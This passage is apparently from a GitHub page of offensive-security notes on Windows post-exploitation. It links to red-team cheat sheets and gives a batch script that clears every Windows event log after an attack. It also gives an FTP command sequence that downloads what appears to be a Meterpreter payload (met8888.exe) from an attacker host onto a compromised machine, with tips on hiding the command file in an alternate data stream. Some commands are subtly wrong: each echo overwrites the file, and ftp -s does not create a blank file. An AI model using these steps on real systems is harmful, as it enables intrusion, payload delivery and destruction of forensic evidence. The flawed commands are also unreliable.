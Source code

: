 ## Post-exploitation Techniques and Commands

* [Useful Commands for Windows Administrators](http://www.robvanderwoude.com/ntadmincommands.php) - Post-exploitation techniques and commands to elicit information from shell of compromised windows machine.
* [A-Z List of Windows Shell Commands](https://ss64.com/nt/) - A-Z Listing of all Windows CMD Commands
* [Red Team Field Manual](https://github.com/Agahlot/RTFM/blob/master/rtfm-red-team-field-manual.pdf) - Windows Post-Exploitation techniques and commands.
* [Windows & Active Directory Exploitation Cheat Sheet and Command Reference](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/) - Name says it all

### Clear Log Files
A simple script to clear logs post attack.

**Create a batch file and execute it as admin.**

  @echo off
  FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
  IF (%adminTest%)==(Access) goto noAdmin
  for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
  echo.
  echo goto theEnd
  :do_clear
  echo clearing %1
  wevtutil.exe cl %1
  goto :eof
  :noAdmin
  exit
  
### Transfer files to compromised host via non-interactive shell 

In cases where you want to upload a file onto the compromised machine but you don't have an interactive shell where you simply upload the file, you can write it onto the compromised machine using FTP, feeding it one line at a time.  

**Create a blank file to write commands onto**
ftp -s:ftp_commands.txt

**Echo each command (you can also do this all in one line):**

echo open 10.9.122.8>ftp_commands.txt
echo anonymous>ftp_commands.txt
echo blah>ftp_commands.txt
echo binary>ftp_commands.txt
echo get met8888.exe>ftp_commands.txt
echo bye>ftp_commands.txt

*Instead of ftp_commands.txt, use a unique name, hide the file in a datastream, or hide the file in the folder. aka don't be obvi

### Query state of Firewall, Disable Firewall, Allow a Service Through
